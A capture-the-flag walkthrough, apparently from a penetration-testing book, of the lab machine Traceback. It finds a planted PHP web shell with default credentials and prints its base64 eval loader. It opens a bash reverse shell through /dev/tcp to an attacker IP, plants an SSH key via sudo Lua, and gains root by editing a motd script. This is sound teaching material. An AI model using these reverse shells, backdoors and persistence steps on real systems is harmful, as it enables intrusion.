


# Exercise: Enumeration and privilege escalation on  Traceback

An nmap scan of the box reveals ports 80 and 22 are open.

```bash
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| 256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_ 256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Going to the website at the IP address, we get a page saying that the site has been "owned" by a hacker and that a backdoor has been installed.


The source code of the page has a comment:

&lt;!--Some of the best web shells that you might need ;\)--&gt;

If we do an Internet search with this line, we get a Github site of Web-Shells in ASP, JSP and PHP \([https://github.com/TheBinitGhimire/Web-Shells\](https://github.com/TheBinitGhimire/Web-Shells\)\). We know from nmap that the machine is running Ubuntu and so is not going to be running ASP which is a Microsoft technology. We would also assume that if the site was running JSP, we might have picked up Tomcat when doing the nmap but it is running Apache. So we will assume that it is running PHP for the time being. We can run a gobuster directory scan and use a special wordlist from SecLists that has common backdoor shell names in it:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Traceback]
└──╼ $gobuster dir -t 50 -w /usr/share/SecLists/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt -u 
http://traceback.htb

<SNIP>
/smevk.php (Status: 200)
```

This gives us a file smevk.php which is indeed one of the web shells from the GitHub site. When we go to that file on the site, we get a login asking for a username and password as shown here.



.Looking at the code, of this shell, we see that there is a username and password "admin" and "admin":

```php
<?php
/*
SmEvK_PaThAn Shell v3 Coded by Kashif Khan .

https://www.facebook.com/smevkpathan

smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!
*/
//Make your setting here.
$deface_url = '
http://pastebin.com/raw.php?i=FHfxsFGT
'; //deface url here(pastebin).
$UserName = "admin"; //Your UserName here.
$auth_pass = "admin"; //Your Password.
//Change Shell Theme here//
$color = "#8B008B"; //Fonts color modify here.
$Theme = '#8B008B'; //Change border-color accoriding to your choice.
$TabsColor = '#0E5061'; //Change tabs color here.
#-------------------------------------------------------------------------------
?>
```

```php
<?php
$smevk ="...";
eval("?>".(base64_decode($smevk)));
?>
```


After logging in, we are presented with information that the shell has gathered that includes the username and group that we are executing as, the name of the machine and its operating system information, and a listing of the directory of /var/www/html which is the root web directory. Unfortunately, the poor choice of colors makes the page difficult to read and so we should try and get a reverse shell to be able to explore more efficiently. We can do that by executing a bash reverse shell in the Execute section of the web shell.



Starting a netcat listener on port 6001, we get a hit when the script is executed and we can then upgrade the shell

```bash
webadmin@traceback:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash");'
<ml$ python3 -c 'import pty;pty.spawn("/bin/bash");'
webadmin@traceback:/var/www/html$ ^Z
[1]+ Stopped nc -lvnp 6001
┌─[✗]─[rin@parrot]─[~/boxes/Traceback]
└──╼ $stty raw -echo
┌─[rin@parrot]─[~/boxes/Traceback]
nc -lvnp 6001
webadmin@traceback:/var/www/html$
```

Now that we are on the box, we can start with some simple enumeration. The first thing is to check what users are on the box by looking at the passwd file:

```bash
webadmin@traceback:/var/www/html$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
<SNIP>
webadmin:x:1000:1000:traceback,,,:/home/webadmin:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
sysadmin:x:1001:1001::/home/sysadmin:/bin/sh
```

From this file, we can see that there are three users that have home directories and can login; root, webadmin and sysadmin. Users that are not expected to login do not have a home directory configured and instead of a shell, will have the /usr/sbin/nologin program that will log the attempted login and print a message saying the "This account is currently not available". Exploring their home directories, we only have access to /home/webadmin, since that is who we are, and in that directory, we find a file note.txt with the contents:

```bash
webadmin@traceback:/home/webadmin$ cat note.txt
sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:/home/webadmin$
```

Looking at webadmin's home directory in more detail, we find that the .bash\_history file has some content. Looking at that file, we get:

```bash
webadmin@traceback:/home/webadmin$ ls -al
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 2020 .
drwxr-xr-x 4 root root 4096 Aug 25 2019 ..
-rw------- 1 webadmin webadmin 105 Mar 16 2020 .bash_history
-rw-r--r-- 1 webadmin webadmin 220 Aug 23 2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23 2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23 2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24 2019 .local
-rw-rw-r-- 1 webadmin webadmin 1 Aug 25 2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin 807 Aug 23 2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 2020 .ssh
-rw-rw-r-- 1 sysadmin sysadmin 122 Mar 16 2020 note.txt
webadmin@traceback:/home/webadmin$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
```

So this looks like webadmin can run a program /home/sysadmin/luvit as the user sysadmin using sudo and pass it a Lua script.

Let us run LinPEAS and see what it finds. To get linpeas.sh we can run a python3 web server from our machine and then use wget from Traceback. Copy linpeas.sh into a directory and then run:

```bash
python3 -m http.server 8000
```

On Traceback, we can fetch linpeas.sh into a temporary directory /dev/shm. The benefit of using this directory rather than /tmp is that when the machine gets rebooted, the /dev/shm will be cleared, cleaning up any files we might have forgotten. Once downloaded, we change the permissions to execute and then run, putting the output into a file:

```bash
webadmin@traceback:/dev/shm$ wget 
http://10.10.14.117:8000/linpeas.sh

--2020-12-27 20:31:05-- 
http://10.10.14.117:8000/linpeas.sh

Connecting to 10.10.14.117:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 299897 (293K) [text/x-sh]
Saving to: 'linpeas.sh'
linpeas.sh 100%[===================>] 292.87K 237KB/s in 1.2s
2020-12-27 20:31:07 (237 KB/s) - 'linpeas.sh' saved [299897/299897]
webadmin@traceback:/dev/shm$ chmod a+x linpeas.sh
webadmin@traceback:/dev/shm$ ./linpeas.sh -s > linpeas.out
```

Going through the output, the first we find is further evidence that webadmin can run sudo as indicated by the bash history we found earlier. In the LinPEAS output, we see that the output from sudo -l which lists that webadmin has the ability to run the program luvit in /home/sysadmin/luvit/ as user sysadmin:

```bash
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] 
https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid

Matching Defaults entries for webadmin on traceback:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User webadmin may run the following commands on traceback:
(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

Right now, we could continue our enumeration but we seem to have a path to getting access to the sysadmin user and we are going to explore that first. Based on the note, we think that the luvit program will execute Lua script. Lua is the scripting language that nmap uses for any external functionality that it can run. We can use the program running as sysadmin to write an SSH key to the authorized\_keys file in the home directory of sysadmin. The first thing to do is to generate an SSH key using ssh-keygen:

```bash
┌─[rin@parrot]─[~/boxes/Traceback] [34/40]
└──╼ $ssh-keygen -f sysadmin.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in sysadmin.key
Your public key has been saved in sysadmin.key.pub
The key fingerprint is:
SHA256:Nc30lm7tE6QDKmKMUuVSwK1FKJXeLlA0jZ8lUdFCfnk rin@parrot
<SNIP>
```

Looking at the documentation for Lua script, writing to a file is fairly simple and we can adapt the code to append the public key to the authorized\_keys file:

```python
file = io.open("/home/sysadmin/.ssh/authorized_keys","a")
io.output(file)
io.write("ssh-rsa … =")
```

We can then run this script:

```bash
webadmin@traceback:/dev/shm$ sudo -u sysadmin /home/sysadmin/luvit test.lua
```

And then SSH onto the machine as sysadmin:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Traceback]
└──╼ $ssh -i sysadmin sysadmin@traceback.htb
The authenticity of host 'traceback.htb (10.129.1.189)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'traceback.htb,10.129.1.189' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H ---------
I guess stuff could have been configured better ^^ -
#################################
Welcome to Xh4H land
Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
```

Now that we are sysadmin and have got the flag in /home/sysadmin/user.txt, we can run LinPEAS again as the sysadmin user. This will generate different output because as sysadmin, we will have different privileges than webadmin. You can see this when looking at the output and the sudo -l command returns nothing whereas it did when we were webadmin. Running linpeas.sh again and looking through the output, we get a highly exploitable vulnerability flagged:

```bash
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] 
https://book.hacktricks.xyz/linux-unix/privilege-escalation#w

ritable-files
Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
```

Before we investigate this more, let us use another tool to enumerate processes called pspy64 \([https://github.com/DominicBreuker/pspy\](https://github.com/DominicBreuker/pspy\)\). This will monitor processes and highlight when new processes run. When running it on Traceback, we see that every minute a set of processes run:

```bash
2020/12/28 17:11:01 CMD: UID=0 PID=49845 | sleep 30
2020/12/28 17:11:01 CMD: UID=0 PID=49844 | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
2020/12/28 17:11:01 CMD: UID=0 PID=49843 | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
2020/12/28 17:11:01 CMD: UID=0 PID=49842 | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
2020/12/28 17:11:01 CMD: UID=0 PID=49841 | /usr/sbin/CRON -f
2020/12/28 17:11:01 CMD: UID=0 PID=49840 | /usr/sbin/CRON -f
2020/12/28 17:11:31 CMD: UID=0 PID=49846 | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

Motd is "message of the day" and is a set of text files that are displayed to a user when they log in. Linux uses PAM \(Pluggable Authentication Modules\) to manage the authentication and login process. The module pam\_motd is the one responsible for displaying the messages to users logging in and before they get a shell.

We can see what happens to the pspy output when we SSH in:

```bash
2020/12/28 17:41:04 CMD: UID=0 PID=50208    | /usr/sbin/sshd -D -R
2020/12/28 17:41:04 CMD: UID=106 PID=50209  | sshd: [net]
2020/12/28 17:41:07 CMD: UID=0 PID=50211    | run-parts --lsbsysinit /etc/update-motd.d
2020/12/28 17:41:07 CMD: UID=0 PID=50210    | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2020/12/28 17:41:07 CMD: UID=??? PID=50213  | ???
2020/12/28 17:41:07 CMD: UID=0 PID=50214    | /bin/sh /etc/update-motd.d/50-motd-news
2020/12/28 17:41:07 CMD: UID=0 PID=50218    | /bin/sh /etc/update-motd.d/50-motd-news
2020/12/28 17:41:07 CMD: UID=0 PID=50217    |
2020/12/28 17:41:07 CMD: UID=0 PID=50216    |
2020/12/28 17:41:07 CMD: UID=0 PID=50215    |
2020/12/28 17:41:07 CMD: UID=0 PID=50219    | /bin/sh /etc/update-motd.d/80-esm
2020/12/28 17:41:07 CMD: UID=0 PID=50220    | /bin/sh /etc/update-motd.d/80-esm
2020/12/28 17:41:07 CMD: UID=0 PID=50221    | /usr/bin/python3 -Es /usr/bin/lsb_release -ds
2020/12/28 17:41:07 CMD: UID=0 PID=50222    | /bin/sh /etc/update-motd.d/91-release-upgrade
2020/12/28 17:41:07 CMD: UID=0 PID=50225    | cut -d -f4
2020/12/28 17:41:07 CMD: UID=0 PID=50224    | /usr/bin/python3 -Es /usr/bin/lsb_release -sd
2020/12/28 17:41:07 CMD: UID=0 PID=50223    | /bin/sh /etc/update-motd.d/91-release-upgrade
2020/12/28 17:41:07 CMD: UID=??? PID=50226  | ???
2020/12/28 17:41:07 CMD: UID=0 PID=50227    | stat -c %Y /var/lib/ubuntu-release-upgrader/release-upgrade-available
2020/12/28 17:41:07 CMD: UID=0 PID=50230    | sshd: sysadmin [priv]
2020/12/28 17:41:08 CMD: UID=1001 PID=50231 | -sh
```

The most important thing hers is that we can see the scripts in the motd files being run by root. We should be able to modify one of the files and put in a reverse shell which will get called when we SSH in.

We can edit the file /etc/update-motd.d/00-header and add the line:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.117/6002 0>&1"
```

We start a netcat listener on our box listening on port 6002, write the motd file and then ssh as sysadmin. You will know that the process has worked because the SSH login will hang when it executes the reverse shell. Our listener should then drop into a shell as root:

```bash
┌─[rin@parrot]─[~/boxes/Traceback]
└──╼ $nc -lvnp 6002
listening on [any] 6002 ...
connect to [10.10.14.117] from (UNKNOWN) [10.129.1.189] 59966
bash: cannot set terminal process group (50728): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/# whoami
whoami
root
```

In the enumeration process, we went through the steps of looking for information and then looking for vulnerabilities that we could exploit on the system, in this case a misconfiguration left by the "hackers" who had taken over the machine. LinPEAS made that process more efficient, highlighting the vulnerability of the group writeable motd files.

We will look at another example where using LinPEAS highlights potential credentials in a configuration file to get a user with different privileges. Having got this user, we can do some manual enumeration to find a path to escalate privileges to get root.


